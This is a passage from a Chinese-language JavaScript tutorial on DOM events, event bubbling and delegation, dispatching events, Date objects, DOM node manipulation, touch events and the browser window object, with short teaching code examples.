* **DOM L2**：引入 `addEventListener`，可以绑定多个监听、可以选择捕获或冒泡阶段
* **DOM L3**：在 L2 的基础上重新定义事件模块，并新增了一些事件类型

### 9.2 事件类型

将众多的事件类型分类可分为：鼠标事件、键盘事件、表单事件、焦点事件等。

#### 9.2.1 鼠标事件

鼠标事件是指跟鼠标操作相关的事件，如单击、双击、移动等。

* `click`：鼠标单击
* `dblclick`：鼠标双击
* `mouseenter`：监听鼠标是否移入 DOM 元素
* `mouseleave`：监听鼠标是否移出 DOM 元素

```html
<body>
  <div class="box"></div>
  <script>
    const box = document.querySelector('.box')

    // 监听鼠标是移入当前 DOM 元素
    box.addEventListener('mouseenter', function () {
      // 修改文本内容
      this.innerText = '鼠标移入了...'
      // 修改光标的风格
      this.style.cursor = 'move'
    })

    // 监听鼠标是移出当前 DOM 元素
    box.addEventListener('mouseleave', function () {
      this.innerText = '鼠标移出了...'
    })
  </script>
</body>
```

#### 9.2.2 键盘事件

* `keydown`：键盘按下触发
* `keyup`：键盘抬起触发

#### 9.2.3 焦点事件

* `focus`：获得焦点
* `blur`：失去焦点

#### 9.2.4 文本框输入事件

输入框内容变化时触发的事件为 `input`。

#### 9.2.5 页面加载事件

加载外部资源（如图片、外联 CSS 和 JavaScript 等）加载完毕时触发的事件，有些时候需要等页面资源全部处理完了再做一些事情。

* `load`：监听页面所有资源加载完毕，给 `window` 注册
* `DOMContentLoaded`：当初始的 HTML 文档被完全加载和解析完成之后触发，无需等待样式表、图像等完全加载，给 `document` 注册

```html
<body>
  <button>点击</button>
  <script>
    // 1. 等待页面所有资源加载完毕，再去执行回调函数
    window.addEventListener('load', function () {
      const btn = document.querySelector('button')
      btn.addEventListener('click', function () {
        alert(11)
      })
    })

    // 2. 等待 HTML 文档被完全加载和解析完成，再去执行回调函数（推荐）
    document.addEventListener('DOMContentLoaded', function () {
      const btn = document.querySelector('button')
      btn.addEventListener('click', function () {
        alert(11)
      })
    })
  </script>
</body>
```

> 提示
>
> 给图片等单个外部资源也可以注册 `load` 事件，等它加载完毕后再执行对应的代码。

__script标签的async和defer：__ 
__defer：__ 
-  下载：和HTML解析并行（不会阻塞HTML解析，后台偷偷下载JS文件）
-  执行时机：HTML全部解析完成之后，DOMContentLoaded之前
-  多个带defer脚本：保持书写顺序执行
特点：延迟执行，但保序
__async：__ 
- 下载：和HTML解析并行，后台下载
- 执行时机：JS下载完就立刻执行，不管HTML有没有解析完
- 多个async脚本：谁先下载好，谁先执行，顺序不可控
特点：下载并行，执行不等待HTML，顺序乱序

#### 9.2.6 元素滚动事件

滚动条在滚动的时候持续触发的事件。

```javascript
window.addEventListener('scroll', function () {
  // 页面被卷去的头部距离，必须写在 scroll 事件的处理函数里面获取
  const n = document.documentElement.scrollTop
  console.log(n)
})
```

* `scrollTop` 和 `scrollLeft`：元素被卷去的头部和左侧的距离，是数字型，不带单位
* `document.documentElement.scrollTop`：获取整个页面被卷去的头部距离，也可以赋值来设置页面的滚动位置
* `element.scrollTo(x, y)`：方法，把内容滚动到指定的坐标，可同时设置 top 和 left

> 注意
>
> `scrollTop` 的值随着滚动不断变化，所以获取被卷去的距离要写在 `scroll` 事件的处理函数内部。

#### 9.2.7 页面尺寸事件

窗口尺寸改变的时候触发的事件。

```html
<body>
  <div>123123123123123123123123123123123123123</div>
  <script>
    const div = document.querySelector('div')

    // clientWidth：元素自身的宽度，包含 padding，不包含 border 和滚动条
    console.log(div.clientWidth)

    // 浏览器窗口大小发生变化的时候触发
    window.addEventListener('resize', function () {
      console.log(1)
    })
  </script>
</body>
```

* `clientWidth` 和 `clientHeight`：获取元素自身的宽高，包含 `padding`，不包含 `border` 和滚动条
* `clientTop` 和 `clientLeft`：获取元素上侧和左侧边框的宽度

> 经验
>
> 移动端常配合 `resize` 事件与 `clientWidth` 计算并设置 `rem` 基准值。

#### 9.2.8 事件列表速查

| 事件类型 | 事件名称 | 触发条件 |
| --- | --- | --- |
| **鼠标事件** | `click` | 点击元素（按下并释放鼠标按钮） |
|  | `dblclick` | 双击元素 |
|  | `mousedown` / `mouseup` | 鼠标按钮按下 / 释放 |
|  | `mousemove` | 鼠标在元素上移动 |
|  | `mouseover` / `mouseout` | 鼠标进入 / 离开元素（**会冒泡**） |
|  | `mouseenter` / `mouseleave` | 鼠标进入 / 离开元素（**不冒泡**） |
|  | `contextmenu` | 右键点击（弹出上下文菜单） |
| **键盘事件** | `keydown` / `keyup` | 键盘按键按下 / 释放 |
| **表单事件** | `submit` / `reset` | 表单提交 / 重置 |
|  | `change` | 表单元素值改变（失去焦点后触发） |
|  | `input` | 输入值实时变化 |
|  | `focus` / `blur` | 元素获得 / 失去焦点 |
|  | `select` | 文本被选中 |
| **窗口事件** | `load` | 页面或资源加载完成 |
|  | `DOMContentLoaded` | DOM 加载完成（不等待图片等资源） |
|  | `resize` | 窗口大小改变 |
|  | `scroll` | 滚动事件 |
|  | `unload` / `beforeunload` | 页面卸载 / 即将卸载（可提示用户是否离开） |
| **触摸事件（移动端）** | `touchstart` / `touchmove` / `touchend` | 手指触摸 / 滑动 / 离开屏幕 |
|  | `touchcancel` | 触摸被中断（如来电） |
| **拖放事件** | `dragstart` / `drag` / `dragend` | 拖动开始 / 拖动中 / 拖动结束 |
|  | `dragenter` / `dragover` / `dragleave` / `drop` | 进入目标 / 在目标上移动 / 离开目标 / 在目标上释放 |
| **媒体事件** | `play` / `pause` / `ended` | 媒体播放 / 暂停 / 播放结束 |
|  | `volumechange` / `timeupdate` | 音量改变 / 播放位置改变 |
| **剪贴板事件** | `copy` / `cut` / `paste` | 复制 / 剪切 / 粘贴 |
| **其他事件** | `error` | 加载资源失败 |
|  | `online` / `offline` | 浏览器联网 / 断网 |
|  | `transitionend` | CSS 过渡结束 |
|  | `animationstart` / `animationend` / `animationiteration` | CSS 动画开始 / 结束 / 重复执行 |

### 9.3 事件对象

任意事件类型被触发时与事件相关的信息会被以对象的形式记录下来，我们称这个对象为事件对象。

```html
<body>
  <div class="box"></div>
  <script>
    const box = document.querySelector('.box')

    box.addEventListener('click', function (e) {
      // 事件回调函数的第 1 个参数即所谓的事件对象
      console.log(e)
    })
  </script>
</body>
```

事件回调函数的【第 1 个参数】即所谓的事件对象，通常习惯性的将这个对象命名为 `event`、`ev`、`e`。事件对象中包含了哪些有用的信息：

* `ev.type` 当前事件的类型
* `ev.clientX/Y` 光标相对浏览器窗口的位置
* `ev.offsetX/Y` 光标相对于当前 DOM 元素的位置
* `ev.key` 键盘按键的值，如回车键为 `Enter`
* `ev.target` 真正**最初触发事件**的元素（事件委托就靠它判断点的是谁）
* `ev.currentTarget` **当前正在处理事件**的元素，与回调里的 `this` 相同
* `ev.bubbles` 该事件是否会冒泡；`focus`、`blur`、`load` 等事件不会冒泡
* `ev.preventDefault()` 阻止元素的默认行为；`ev.stopPropagation()` 阻止事件继续传播

> 提示
>
> 在事件回调函数内部通过 `window.event` 同样可以获取事件对象。

### 9.4 环境对象

环境对象指的是函数内部特殊的变量 `this`，它代表着当前函数运行时所处的环境。

```javascript
// 声明函数
function sayHi() {
  // this 是一个变量
  console.log(this)
}

// 声明一个对象
let user = {
  name: '张三',
  sayHi: sayHi // 此处把 sayHi 函数，赋值给 sayHi 属性
}

let person = {
  name: '李四',
  sayHi: sayHi
}

// 直接调用
sayHi() // window
window.sayHi() // window

// 作为对象方法调用
user.sayHi() // user
person.sayHi() // person
```

结论：

* `this` 本质上是一个变量，数据类型为对象
* 函数的调用方式不同，`this` 变量的值也不同
* 【谁调用 `this` 就是谁】是判断 `this` 值的粗略规则
* 函数直接调用时实际上 `window.sayHi()`，所以 `this` 的值为 `window`

### 9.5 回调函数

如果将函数 A 作为参数传递给函数 B 时，我们称函数 A 为回调函数。

```javascript
// 声明 foo 函数
function foo(arg) {
  console.log(arg)
}

// 普通的值作为参数
foo(10)
foo('hello world!')
foo(['html', 'css', 'javascript'])

function bar() {
  console.log('函数也能当参数...')
}
// 函数也可以作为参数！！！！
foo(bar)
```

函数 `bar` 作为参数传给了 `foo` 函数，`bar` 就是所谓的回调函数了。回顾一下间歇函数 `setInterval`：

```javascript
function fn() {
  console.log('我是回调函数...')
}
// 调用定时器
setInterval(fn, 1000)

// 更常见的写法：匿名函数作为参数
setInterval(function () {
  console.log('我是回调函数...')
}, 1000)
```

结论：

* 回调函数本质还是函数，只不过把它当成参数使用
* 使用匿名函数作为回调函数比较常见

<a id="ch10"></a>
## 10. 事件进阶

> 目标：结合事件流的特征优化事件执行的效率，掌握阻止事件冒泡与事件委托。

### 10.1 事件流

事件流是对事件执行过程的描述，了解事件的执行过程有助于加深对事件的理解，提升开发实践中对事件运用的灵活度。


如上图所示，任意事件被触发时总会经历两个阶段：【捕获阶段】和【冒泡阶段】。

简言之，捕获阶段是【从父到子】的传导过程，冒泡阶段是【从子向父】的传导过程。

#### 10.1.1 捕获和冒泡

了解了什么是事件流之后，我们来看事件流是如何影响事件执行的：

```html
<body>
  <div class="outer">
    <div class="inner">
      <div class="child"></div>
    </div>
  </div>
  <script>
    // 获取嵌套的 3 个节点
    const outer = document.querySelector('.outer')
    const inner = document.querySelector('.inner')
    const child = document.querySelector('.child')

    // html 元素添加事件
    document.documentElement.addEventListener('click', function () {
      console.log('html...')
    })

    // body 元素添加事件
    document.body.addEventListener('click', function () {
      console.log('body...')
    })

    // 外层的盒子添加事件
    outer.addEventListener('click', function () {
      console.log('outer...')
    })
  </script>
</body>
```

执行上述代码后发现，当单击事件触发时，其祖先元素的单击事件也【相继触发】，这是为什么呢？

结合事件流的特征，我们知道当某个元素的事件被触发时，事件总是会先经过其祖先才能到达当前元素，然后再由当前元素向祖先传递，事件在流动的过程中遇到相同的事件便会被触发。

再来关注一个细节就是事件相继触发的【执行顺序】，事件的执行顺序是可控制的，即可以在捕获阶段被执行，也可以在冒泡阶段被执行：

* 如果事件是在冒泡阶段执行的，我们称为冒泡模式，它会先执行子盒子事件再去执行父盒子事件，默认是冒泡模式
* 如果事件是在捕获阶段执行的，我们称为捕获模式，它会先执行父盒子事件再去执行子盒子事件

```javascript
const outer = document.querySelector('.outer')
const inner = document.querySelector('.inner')

// 外层的盒子
outer.addEventListener('click', function () {
  console.log('outer...')
}, true) // true 表示在捕获阶段执行事件

// 中间的盒子
inner.addEventListener('click', function () {
  console.log('inner...')
}, true)
```

结论：

* `addEventListener` 第 3 个参数决定了事件是在捕获阶段触发还是在冒泡阶段触发
* `addEventListener` 第 3 个参数为 `true` 表示捕获阶段触发，`false` 表示冒泡阶段触发，默认值为 `false`
* 事件流只会在父子元素具有相同事件类型时才会产生影响
* 绝大部分场景都采用默认的冒泡模式（其中一个原因是早期 IE 不支持捕获）

#### 10.1.2 阻止冒泡

阻止冒泡是指阻断事件的流动，保证事件只在当前元素被执行，而不再去影响到其对应的祖先元素。

```javascript
const outer = document.querySelector('.outer')
const inner = document.querySelector('.inner')
const child = document.querySelector('.child')

// 外层的盒子
outer.addEventListener('click', function () {
  console.log('outer...')
})

// 中间的盒子
inner.addEventListener('click', function (ev) {
  console.log('inner...')
  // 阻止事件冒泡
  ev.stopPropagation()
})

// 内层的盒子
child.addEventListener('click', function (ev) {
  console.log('child...')
  // 借助事件对象，阻止事件向上冒泡
  ev.stopPropagation()
})
```

结论：事件对象中的 `ev.stopPropagation` 方法，专门用来阻止事件冒泡。

> 提示
>
> 鼠标经过事件：
>
> * `mouseover` 和 `mouseout` 会有冒泡效果
> * `mouseenter` 和 `mouseleave` 没有冒泡效果（推荐）

事件对象中还有个方法专门用来阻止默认行为，例如链接的跳转、表单域的提交等都是元素的默认行为：

```html
<body>
  <form action="http://www.itcast.cn">
    <input type="submit" value="免费注册">
  </form>
  <a href="http://www.baidu.com">百度一下</a>
  <script>
    // 1. 阻止表单提交的默认行为
    const form = document.querySelector('form')
    form.addEventListener('submit', function (e) {
      e.preventDefault()
    })

    // 2. 阻止链接跳转的默认行为
    const a = document.querySelector('a')
    a.addEventListener('click', function (e) {
      e.preventDefault()
    })
  </script>
</body>
```

> 注意
>
> `ev.stopPropagation()` 阻止的是事件冒泡，`ev.preventDefault()` 阻止的是元素的默认行为，两者用途不同。

常见默认行为一览：

| 元素 / 事件 | 默认行为 | 阻止方式 |
| --- | --- | --- |
| `<a>` 点击 | 跳转到 `href` | `e.preventDefault()` |
| `<form>` 提交 | 发送数据并刷新页面 | `e.preventDefault()` |
| 右键点击（`contextmenu`） | 显示浏览器右键菜单 | `e.preventDefault()` |
| 点击复选框 | 显示或取消对钩 | `e.preventDefault()` |
| 键盘回车 | 触发表单提交 | `e.preventDefault()` |
| 鼠标滚轮 | 滚动页面 | `e.preventDefault()` |
| 文本选择 | 选中文本 | `e.preventDefault()` |

```javascript
// 禁用网页右键菜单
document.addEventListener('contextmenu', function (event) {
  event.preventDefault()
})
```

#### 10.1.3 解绑事件

事件注册之后，可以通过对应的方式解绑，让事件不再触发。

```javascript
const btn = document.querySelector('button')

// 1. on 方式：重新赋值为 null 即可解绑
btn.onclick = function () {
  alert('点击了')
  // 解绑事件
  btn.onclick = null
}

// 2. addEventListener 方式：使用 removeEventListener 解绑
function fn() {
  alert('点击了')
}
btn.addEventListener('click', fn)
// 解绑事件，事件类型和处理函数要与注册时一致
btn.removeEventListener('click', fn)
```

> 注意
>
> 使用 `addEventListener` 注册的事件，如果回调函数是匿名函数，则无法被解绑。

### 10.2 事件委托

事件委托是利用事件流的特征解决一些现实开发需求的知识技巧，主要的作用是提升程序效率。

大量的事件监听是比较耗费性能的，如下代码所示：

```javascript
// 假设页面中有 10000 个 button 元素
const buttons = document.querySelectorAll('table button')

for (let i = 0; i < buttons.length; i++) {
  // 为 10000 个 button 元素添加了事件
  buttons[i].addEventListener('click', function () {
    // 省略具体执行逻辑...
  })
}
```

利用事件流的特征，可以对上述的代码进行优化，事件的冒泡模式总是会将事件流向其父元素的，如果父元素监听了相同的事件类型，那么父元素的事件就会被触发并执行，正是利用这一特征对上述代码进行优化：

```javascript
// 假设页面中有 10000 个 button 元素
let buttons = document.querySelectorAll('table button')

// 假设上述的 10000 个 button 元素共同的祖先元素是 table
let parents = document.querySelector('table')
parents.addEventListener('click', function () {
  console.log('点击任意子元素都会触发事件...')
})
```

我们的最终目的是保证只有点击 button 子元素才去执行事件的回调函数，如何判断用户点击是哪一个子元素呢？事件对象中的属性 `target` 或 `srcElement` 表示真正触发事件的元素，它是一个元素类型的节点。

```javascript
const buttons = document.querySelectorAll('table button')
const parents = document.querySelector('table')

parents.addEventListener('click', function (ev) {
  // 只有 button 元素才会真正去执行逻辑
  if (ev.target.tagName === 'BUTTON') {
    // 执行的逻辑
  }
})
```

也可以直接用 `matches()` 判断目标元素是否匹配某个 CSS 选择器，写起来更灵活：

```javascript
parents.addEventListener('click', function (ev) {
  // 判断真正触发事件的元素是否匹配 .item
  if (ev.target.matches('.item')) {
    console.log('点击了:', ev.target.textContent)
  }
})
```

> 提示
>
> `matches()` 是原生 DOM 方法，参数是 CSS 选择器字符串，返回布尔值，不需要借助 jQuery。

> 经验
>
> 优化过的代码只对祖先元素添加事件监听，相比对 10000 个元素添加事件监听执行效率要高许多！！！

### 10.3 元素尺寸与位置

获取元素的自身宽高，包含元素自身设置的宽高、padding、border：

* `offsetWidth` 和 `offsetHeight`

获取出来的是数值，方便计算。

> 注意
>
> 获取的是可视宽高，如果盒子是隐藏的，获取的结果是 0。

获取元素的位置：

* `offsetParent`：获取最近的带有定位的父元素（定位父级），如果所有父元素都没有定位，得到的是 `body`
* `offsetLeft` 和 `offsetTop`：获取元素距离定位父级 `offsetParent` 的距离，父元素没有定位时以页面为准

* `getBoundingClientRect()`：获取元素相对视口（可视区）的位置，返回的对象中包含 `width`、`height`、`top`、`left`、`right`、`bottom` 等属性

```javascript
const div = document.querySelector('div')

// 1. 元素相对离它最近的带有定位的父元素的位置
console.log(div.offsetLeft, div.offsetTop)

// 2. 元素相对视口的位置，不受定位的父元素影响
console.log(div.getBoundingClientRect())
```

> 经验
>
> 需要元素在页面中的位置时用 `offsetLeft` / `offsetTop`，需要元素在可视区中的位置时用 `getBoundingClientRect()`。

常用尺寸 / 位置属性对比：

| 属性 | 作用 | 说明 |
| --- | --- | --- |
| `scrollLeft` / `scrollTop` | 被卷去的左侧 / 头部距离 | 配合滚动事件使用，**可读写** |
| `clientWidth` / `clientHeight` | 元素可见部分的宽高 | 不包含 `border`、`margin`、滚动条，**只读** |
| `offsetWidth` / `offsetHeight` | 元素自身的宽高 | 包含 `padding`、`border`，**只读** |
| `offsetLeft` / `offsetTop` | 距离定位父级的左 / 上距离 | 获取元素位置时用，**只读** |
| `getBoundingClientRect()` | 相对视口的位置和大小 | 返回 `top`、`left`、`right`、`bottom`、`width`、`height`、`x`、`y` |

### 10.4 代码触发事件

除了用户操作，代码也可以主动触发事件。常见两种方式：调用 DOM 自带的触发方法，或用 `dispatchEvent()` 派发事件。

#### 10.4.1 调用元素自带的方法

```html
<form action="http://localhost:8080/user/save">
  用户名：<input type="text" name="username" value="jackson" />
  <button id="submitBtn">提交</button>
</form>

<script>
  setTimeout(function () {
    document.querySelector('#submitBtn').click()
  }, 3000)
</script>
```

> 注意
>
> 调用 DOM 的固有方法（如 `click()`）会真正触发事件，**同时执行浏览器的默认行为**（这里是提交表单）。

#### 10.4.2 使用 dispatchEvent 派发事件

这是最标准、也最推荐的方式，可以精确控制事件：

```javascript
const btn = document.querySelector('#submitBtn')

btn.addEventListener('click', function () {
  console.log('按钮被点击了')
})

// 创建事件对象并派发
const clickEvent = new Event('click', {
  bubbles: true, // 是否冒泡
  cancelable: true // 是否可以被 preventDefault 取消
})
btn.dispatchEvent(clickEvent)
```

> 注意
>
> `dispatchEvent()` **只触发事件监听器，不会执行浏览器与该事件关联的默认行为**。比如 `dispatchEvent(new Event('submit'))` 只触发 `submit` 监听，不会提交表单。

#### 10.4.3 派发自定义事件

自定义事件用 `CustomEvent`，它继承自 `Event`，多了一个 `detail` 属性用于传递数据：

```javascript
const btn = document.querySelector('#btn')

btn.addEventListener('myEvent', function (event) {
  console.log(event.detail.message) // '这是一个自定义的事件'
})

const myEvent = new CustomEvent('myEvent', {
  bubbles: true,
  cancelable: true,
  detail: {
    message: '这是一个自定义的事件'
  }
})

btn.dispatchEvent(myEvent)
```

> 提示
>
> `CustomEvent` 除了 `detail`，其他配置（`bubbles`、`cancelable` 等）与 `Event` 完全一致；`detail` 这个属性名是固定的，不能换。

#### 10.4.4 表单相关的特殊情况

| 写法 | 是否触发 `submit` 事件 | 是否提交表单 |
| --- | --- | --- |
| `form.submit()` | 否 | 是 |
| `form.dispatchEvent(new Event('submit'))` | 是 | 否 |
| `form.requestSubmit()` | 是 | 是 |

* `form.submit()`：只提交表单，不触发 `submit` 事件，所以绑在 `submit` 上的校验逻辑不会执行
* `form.dispatchEvent(new Event('submit'))`：只触发事件，不会提交表单
* `form.requestSubmit()`：两者都做，等价于用户点击提交按钮，是最接近真实用户操作的方式

```javascript
const userForm = document.querySelector('form')

userForm.addEventListener('submit', function (event) {
  // 表单校验不通过时阻止默认提交
  if (!validateForm()) {
    event.preventDefault()
  }
})
```

<a id="ch11"></a>
## 11. 日期对象与 DOM 节点

> 目标：掌握 Date 日期对象的使用，能够插入、删除和替换元素节点，能够依据元素节点关系查找节点。

### 11.1 日期对象

ECMAScript 中内置了获取系统时间的对象 `Date`，使用 `Date` 时与之前学习的内置对象 `console` 和 `Math` 不同，它需要借助 `new` 关键字才能使用。

#### 11.1.1 实例化

```javascript
// 1. 实例化
// const date = new Date() // 系统默认时间
const date = new Date('2020-05-01') // 指定时间
// date 变量即所谓的时间对象

console.log(typeof date)
```

#### 11.1.2 方法

```javascript
// 1. 实例化
const date = new Date()
// 2. 调用时间对象方法
// 通过方法分别获取年、月、日，时、分、秒
const year = date.getFullYear() // 四位年份
const month = date.getMonth() // 0 ~ 11
```

* `getFullYear` 获取四位年份
* `getMonth` 获取月份，取值为 0 ~ 11
* `getDate` 获取月份中的每一天，不同月份取值也不相同
* `getDay` 获取星期，取值为 0 ~ 6
* `getHours` 获取小时，取值为 0 ~ 23
* `getMinutes` 获取分钟，取值为 0 ~ 59
* `getSeconds` 获取秒，取值为 0 ~ 59
* `toLocaleString` 把日期对象转换成当前时区下的字符串，如 `2026/10/16 10:20:30`

```javascript
// 想直接显示当前时间时，用 toLocaleString 一句就够了
console.log(new Date().toLocaleString())
```

#### 11.1.3 时间戳

时间戳是指 1970 年 01 月 01 日 00 时 00 分 00 秒起至现在的总秒数或毫秒数，它是一种特殊的计量时间的方式。

```javascript
// 1. 实例化
const date = new Date()
// 2. 获取时间戳
console.log(date.getTime())
// 还有一种获取时间戳的方法
console.log(+new Date())
// 还有一种获取时间戳的方法
console.log(Date.now())
```

> 注意
>
> ECMAScript 中时间戳是以毫秒计的。获取时间戳的方法分别为 `getTime`、`Date.now` 和 `+new Date()`。

### 11.2 DOM 节点

回顾之前 DOM 的操作都是针对元素节点的属性或文本的，除此之外也有专门针对元素节点本身的操作，如插入、复制、删除、替换等。

#### 11.2.1 插入节点

在已有的 DOM 节点中插入新的 DOM 节点时，需要关注两个关键因素：首先要得到新的 DOM 节点，其次在哪个位置插入这个节点。

```html
<body>
  <div class="box"></div>
  <button class="btn">插入节点</button>
  <script>
    const btn = document.querySelector('.btn')
    btn.addEventListener('click', function () {
      // 1. 获得一个 DOM 元素节点
      const p = document.createElement('p')
      p.innerText = '创建的新的 p 标签'
      p.className = 'info'

      // 复制原有的 DOM 节点
      const p2 = document.querySelector('p').cloneNode(true)
      p2.style.color = 'red'

      // 2. 插入盒子 box 盒子
      document.querySelector('.box').appendChild(p)
      document.querySelector('.box').appendChild(p2)
    })
  </script>
</body>
```

结论：

* `createElement` 动态创建任意 DOM 节点
* `cloneNode` 复制现有的 DOM 节点，传入参数 `true` 会复制所有子节点
* `appendChild` 在末尾（结束标签前）插入节点

再来看另一种情形：在任意节点前插入。

```html
<body>
  <button class="btn1">在任意节点前插入</button>
  <ul>
    <li>HTML</li>
    <li>CSS</li>
    <li>JavaScript</li>
  </ul>
  <script>
    const btn1 = document.querySelector('.btn1')
    btn1.addEventListener('click', function () {
      // 第 2 个 li 元素
      const relative = document.querySelector('li:nth-child(2)')

      // 1. 动态创建新的节点
      const li1 = document.createElement('li')
      li1.style.color = 'red'
      li1.innerText = 'Web APIs'

      // 复制现有的节点
      const li2 = document.querySelector('li:first-child').cloneNode(true)
      li2.style.color = 'blue'

      // 2. 在 relative 节点前插入
      document.querySelector('ul').insertBefore(li1, relative)
      document.querySelector('ul').insertBefore(li2, relative)
    })
  </script>
</body>
```

结论：`insertBefore` 在父节点中任意子节点之前插入新节点。

#### 11.2.2 删除节点

删除现有的 DOM 节点，也需要关注两个因素：首先由父节点删除子节点，其次是要删除哪个子节点。

```html
<body>
  <button>删除节点</button>
  <ul>
    <li>HTML</li>
    <li>CSS</li>
    <li>Web APIs</li>
  </ul>
  <script>
    const btn = document.querySelector('button')
    btn.addEventListener('click', function () {
      // 获取 ul 父节点
      let ul = document.querySelector('ul')
      // 待删除的子节点
      let lis = document.querySelectorAll('li')

      // 删除节点
      ul.removeChild(lis[0])
    })
  </script>
</body>
```

结论：`removeChild` 删除节点时一定是由父子关系。

#### 11.2.3 查找节点

DOM 树中的任意节点都不是孤立存在的，它们要么是父子关系，要么是兄弟关系，不仅如此，我们可以依据节点之间的关系查找节点。

**父子关系**

```html
<body>
  <button class="btn1">所有的子节点</button>
  <ul>
    <li>HTML</li>
    <li>CSS</li>
    <li>JavaScript 基础</li>
    <li>Web APIs</li>
  </ul>
  <script>
    const btn1 = document.querySelector('.btn1')
    btn1.addEventListener('click', function () {
      // 父节点
      const ul = document.querySelector('ul')

      // 所有的子节点
      console.log(ul.childNodes)
      // 只包含元素子节点
      console.log(ul.children)
    })
  </script>
</body>
```

结论：

* `childNodes` 获取全部的子节点，回车换行会被认为是空白文本节点
* `children` 只获取元素类型节点

```html
<body>
  <table>
    <tr>
      <td>1</td>
      <td><span>HTML</span></td>
      <td>初级</td>
      <td><button>变色</button></td>
    </tr>
  </table>
  <script>
    // 获取所有 button 节点，并添加事件监听
    const buttons = document.querySelectorAll('table button')
    for (let i = 0; i < buttons.length; i++) {
      buttons[i].addEventListener('click', function () {
        // console.log(this.parentNode) // 父节点 td
        // console.log(this.parentNode.parentNode) // 爷爷节点 tr
        this.parentNode.parentNode.style.color = 'red'
      })
    }
  </script>
</body>
```

结论：`parentNode` 获取父节点，以相对位置查找节点，实际应用中非常灵活。

**兄弟关系**

```html
<body>
  <ul>
    <li>HTML</li>
    <li>CSS</li>
    <li>JavaScript 基础</li>
    <li>Web APIs</li>
  </ul>
  <script>
    // 获取所有 li 节点
    const lis = document.querySelectorAll('ul li')

    // 对所有的 li 节点添加事件监听
    for (let i = 0; i < lis.length; i++) {
      lis[i].addEventListener('click', function () {
        // 前一个节点
        console.log(this.previousSibling)
        // 下一个节点
        console.log(this.nextSibling)
      })
    }
  </script>
</body>
```

结论：

* `previousSibling` 获取前一个节点，以相对位置查找节点，实际应用中非常灵活
* `nextSibling` 获取后一个节点，以相对位置查找节点，实际应用中非常灵活
* `previousElementSibling` 获取前一个**元素**节点
* `nextElementSibling` 获取后一个**元素**节点

> 注意
>
> `previousSibling` / `nextSibling` 找的是节点，标签之间的回车换行会被当成空白文本节点算进去，所以结果常常不是我们想要的元素；实际开发中查找兄弟元素用得更多的是 `previousElementSibling` / `nextElementSibling`。

### 11.3 M 端触摸事件

移动端也有自己独特的地方，比如触屏事件 touch（也称触摸事件），Android 和 IOS 都有。touch 对象代表一个触摸点，触摸点可能是一根手指，也可能是一根触摸笔。



```html
<body>
  <div></div>
  <script>
    const div = document.querySelector('div')

    // 1. 触摸开始
    div.addEventListener('touchstart', function () {
      console.log('手指触摸到一个 DOM 元素时触发')
    })

    // 2. 滑动中
    div.addEventListener('touchmove', function () {
      console.log('手指在一个 DOM 元素上滑动时触发')
    })

    // 3. 手指离开
    div.addEventListener('touchend', function () {
      console.log('手指从一个 DOM 元素上移开时触发')
    })
  </script>
</body>
```

### 11.4 JS 插件

插件就是别人写好的一些代码，我们只需要复制对应的代码，就可以直接实现对应的效果。

学习插件的基本过程：

* 熟悉官网，了解这个插件可以完成什么需求
* 看在线演示，找到符合自己需求的 demo
* 查看基本使用流程
* 查看 API 文档，去配置自己的插件

以移动端常用的轮播图插件 Swiper 为例：

* 官网：<https://www.swiper.com.cn/>
* 在线演示：<https://www.swiper.com.cn/demo/index.html>
* 使用流程：<https://www.swiper.com.cn/usage/index.html>
* API 文档：<https://www.swiper.com.cn/api/index.html>

> 注意
>
> 多个 Swiper 同时使用时，类名需要注意区分。

<a id="ch12"></a>
## 12. BOM 与本地存储

> 目标：能够利用 JS 操作浏览器，具备利用本地存储实现数据持久化的能力。

### 12.1 JavaScript 的组成

* ECMAScript
  * 规定了 js 基础语法核心知识
  * 比如：变量、分支语句、循环语句、对象等等
* Web APIs
  * DOM：文档对象模型，定义了一套操作 HTML 文档的 API
  * BOM：浏览器对象模型，定义了一套操作浏览器窗口的 API



### 12.2 window 对象

BOM（Browser Object Model）是浏览器对象模型。

* `window` 对象是一个全局对象，也可以说是 JavaScript 中的顶级对象
* 像 `document`、`alert()`、`console.log()` 这些都是 `window` 的属性，基本 BOM 的属性和方法都是 `window` 的
* 所有通过 `var` 定义在全局作用域中的变量、函数都会变成 `window` 对象的属性和方法
* `window` 对象下的属性和方法调用的时候可以省略 `window`



常用属性和方法：

| 属性 / 方法 | 说明 |
| --- | --- |
| `window.innerWidth` / `window.innerHeight` | 视口（可视区）的宽高 |
| `window.open(url, target)` | 打开新窗口 / 新标签页 |
| `window.close()` | 关闭由脚本打开的窗口 |
| `window.alert()` / `prompt()` / `confirm()` | 用户交互对话框 |

```javascript
console.log(window.innerWidth, window.innerHeight) // 视口尺寸

// 打开新窗口（很多浏览器会拦截脚本主动打开的窗口）
const newWin = window.open('https://developer.mozilla.org', '_blank')
// newWin.close() // 只能关闭由脚本打开的窗口
```

### 12.3 定时器：延迟函数

JavaScript 内置的一个用来让代码延迟执行的函数，叫 `setTimeout`。

```javascript
